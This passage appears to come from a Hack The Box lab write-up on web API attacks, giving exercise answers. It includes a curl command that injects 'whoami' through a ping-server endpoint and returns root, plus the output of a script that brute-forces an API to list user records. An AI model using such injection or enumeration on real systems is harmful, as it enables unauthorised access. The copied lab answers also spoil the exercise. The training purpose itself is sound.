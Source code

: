**Answer:** `x86_64`

---
## Command Injection
### Question 1:
![](./attachments/Pasted%20image%2020220727112430.png)

```
┌──(kali㉿kali)-[~/Downloads]
└─$ curl http://10.129.12.225:3003/ping-server.php/system/whoami
root
```

**Answer:** `root`

### Question 2:
![](./attachments/Pasted%20image%2020220727112446.png)

**Answer:** `URL Encoding`

---
## Information Disclosure (with a twist of SQLi)
### Question 1:
![](./attachments/Pasted%20image%2020220727112534.png)

```
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 brute_api.py http://10.129.12.225:3003
Number found! 1
[{"id":"1","username":"admin","position":"1"}]
Number found! 2
[{"id":"2","username":"HTB-User-John","position":"2"}]
Number found! 3
[{"id":"3","username":"WebServices","position":"3"}]
```
